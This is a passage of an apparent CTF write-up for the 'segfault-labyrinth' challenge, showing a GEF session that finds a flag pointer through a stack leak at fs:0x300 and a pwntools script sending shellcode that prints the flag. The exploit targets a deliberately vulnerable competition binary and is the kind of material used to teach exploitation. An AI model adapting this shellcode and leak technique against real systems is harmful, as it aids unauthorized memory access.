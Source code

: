 If `write` were the only option, or if the memory were `r--` (`stat` would fail to write), then this or my original solve is your best bet, however ...

### Leak Stack Alternative (portable and consistent) `exploit4.py`

Get stack leak from `fs:0x300`, then use the offset to the flag pointer; use GDB/GEF to figure it out:

```
gef➤  p/x $fs_base+0x300
$1 = 0x7f09746e7840
gef➤  p/x {long}$1
$2 = 0x7ffef1759330
gef➤  grep CTF{
[+] Searching 'CTF{' in memory
[+] In (0x613efdd5000-0x613efdd6000), permission=rw-
  0x613efdd5000 - 0x613efdd500b  →   "CTF{flag}\n"
gef➤  vmmap stack
Start              End                Offset             Perm Path
0x00007ffef173a000 0x00007ffef175b000 0x0000000000000000 rwx [stack]
gef➤  find 0x00007ffef173a000, 0x00007ffef175b000-1, 0x613efdd5000
0x7ffef1759040
0x7ffef1759048
0x7ffef17591c8
3 patterns found.
gef➤  p/x {long}$1 - 0x7ffef1759040
$2 = 0x2f0
```

#### `exploit4.py`:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./challenge', checksec=False)

if args.REMOTE:
    p = remote('segfault-labyrinth.2022.ctfcompetition.com', 1337)
else:
    p = process(binary.path)

shellcode = asm(f'''
mov rsi, qword ptr fs:0x300
mov rsi, qword ptr [rsi - 0x2f0]
mov dl, 100
mov al, {constants.SYS_write}
mov rdi, rax
syscall
mov al, {constants.SYS_exit}
syscall
''')

if args.D:
    print(disasm(shellcode))
    log.info('len(shellcode) = {x}'.format(x = len(shellcode)))

assert(len(shellcode) < 0x1000)
p.sendafter(b'Labyrinth\n',p64(len(shellcode)))
p.send(shellcode)
_ = p.recvline().decode().strip()
p.close()
print(_)
```